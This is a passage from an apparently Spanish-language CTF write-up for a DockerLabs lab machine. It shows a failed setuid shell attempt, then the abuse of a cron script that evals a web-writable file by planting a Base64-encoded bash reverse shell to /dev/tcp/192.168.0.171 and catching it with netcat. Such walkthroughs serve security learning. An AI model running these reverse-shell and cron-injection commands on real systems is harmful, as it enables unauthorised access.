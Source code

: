 ```terminal
www-data@kali:/home/kvzlx$ /opt/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
bash: /opt/python3: Permission denied
```

Pude acceder al directorio home del usuario 'kvzlx' y encontré un script que se ejecuta periódicamente '.cron_script.sh'

```terminal
www-data@kali:/home/kvzlx$ cat .cron_script.sh
```

![](/assets/img/dockerlabs-writeup-norc/norc1_25.png)

El uso de eval sin tratamiento adecuado en un script cron representa una vulnerabilidad crítica. Permite ejecutar comandos arbitrarios si se controla el contenido del archivo '/var/www/html/.wp-encrypted.txt'.

Para aprovechar esta vulnerabilidad, generé una reverse shell codificada en Base64 y la almacené en '/var/www/html/.wp-encrypted.txt'. Después, configuré un listener con Netcat en mi máquina para recibir la conexión.

```terminal
/home/kali/Documents/dockerlabs/norc:-$ nc -lvpn 4321
	listening on [any] 1234 ...

www-data@kali:/home/kvzlx$ echo "bash -c 'bash -i >& /dev/tcp/192.168.0.171/4321 0>&1'" | base64 >> /var/www/html/.wp-encrypted.txt
```

![](/assets/img/dockerlabs-writeup-norc/norc1_26.png)

Después de un tiempo, el script cron ejecutó mi reverse shell y obtuve acceso como 'kvzlx'

```
	...connect to [192.168.0.171] from (UNKNOWN) [192.168.0.171] 49976

kvzlx@kali:~$ whoami
kvzlx
```

---
## Privilege Escalation
